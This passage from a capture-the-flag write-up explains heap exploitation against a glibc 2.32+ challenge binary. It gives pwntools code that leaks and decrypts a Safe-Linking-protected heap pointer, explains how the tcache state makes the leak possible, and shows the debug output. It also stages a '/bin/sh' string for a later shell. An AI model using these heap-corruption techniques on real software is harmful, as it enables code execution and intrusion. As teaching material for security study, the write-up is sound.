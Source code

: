 ```
$  
```
libc base leaking is done we go for heap base leak.

#### Heap base leak
Well in usual ``Tcache poisining attacks`` heap base leaks is not required but since ``libc 2.32`` introduced ``Safe Linking`` heap base now is a must to be able to solve such challenges.
for more information, about ``Safe Linking``:  **https://research.checkpoint.com/2020/safe-linking-eliminating-a-20-year-old-malloc-exploit-primitive/**

```python
    add(3, 0x20, b"X" * 8)
    add(4, 0x20, b"Z" * 8)
    add(5, 0x18, b"/bin/sh\x00")
    free(4)
    free(3)
    show(0)
    print(p.recvline())
    print(p.recvline())
    leak = u64(p.recvline().strip(b"\n").ljust(8,b"\x00"))
    heap_base = decrypt(leak) -0x2d0#- 0x6e0 for local
    print(hex(heap_base))
```
now the array that contains the heap pointer is this program is called ``heap`` . In this array index 0 and index 3 hold the same pointer for the same chunk which we are going to use to get a heap leak . first we allcoate 2 chunks with the same size , and another with any size (just to prevent from merging). now we free both of them so the tcache bin state for size 0x20 is like this 
``TCACHE[0x20] = INDEX_0_FWD points_to => INDEX_1 ``
as we said earlier index 0 and index 3 in the heap array have the same pointer so by showing the index 0 chunk we get a heap leak (we can't do the same by showing index 3 because index 3 have been nulled in the heap array).
finally we have to decrypt the pointer that we leaked using the ``decrypt()`` function to regain the original pointer and calculate the heap base.
output:
```
b'Data:\n'
0x5620321ce410
[*] running in new terminal: ['/usr/bin/gdb', '-q', './chall_patched', '61258']
[DEBUG] Created script for new terminal:
    #!/usr/bin/python3
    import os
    os.execve('/usr/bin/gdb', ['/usr/bin/gdb', '-q', './chall_patched', '61258'], os.environ)
[DEBUG] Launching a new terminal: ['/usr/bin/x-terminal-emulator', '-e', '/tmp/tmpxoowqif3']
[+] Waiting for debugger: Done
[*] Switching to interactive mode
What do you want to do...
1 . Alloc a bloc
2 . Free a bloc
3 . Edit a bloc
4 . Show a bloc
5 - Freeze a bloc
Choice?
$  
```
